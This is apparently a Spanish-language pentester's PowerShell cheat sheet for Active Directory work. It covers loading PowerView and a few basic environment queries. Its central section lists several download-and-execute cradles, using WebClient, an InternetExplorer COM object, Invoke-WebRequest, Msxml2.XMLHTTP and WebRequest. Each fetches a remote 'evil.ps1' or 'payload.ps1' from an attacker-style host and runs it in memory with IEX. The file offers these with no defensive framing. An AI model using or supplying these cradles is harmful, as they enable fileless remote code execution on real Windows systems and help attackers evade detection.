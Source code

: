 # Powershell 

Tags: #Powershell #AD #Comandos 

## Cargar e importar un script 

```powershell 
❯ C:\AD\PowerView.ps1                   # Cargar un script 

❯ Import-Module C:\AD\PowerView.psd1    # Importar un modulo 

❯ Get-Command -Module <ModuleName>      # Listar modulos 
```

## Descargar un script 

* [Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')  # Descargar executable en memoria 

❯ $ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

❯ PSv3 onwards - iex (iwr 'http://192.168.230.1/evil.ps1')

❯ $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex ❯ $h.responseText

❯ $wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
❯ $r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

## Comandos básicos 

```powershell 
❯ $env:username         # Mirar usuario del dominio 
❯ $env:computername     # Mirar el nombre del computador 

❯ ls env:               # Listar las variables de entorno 
```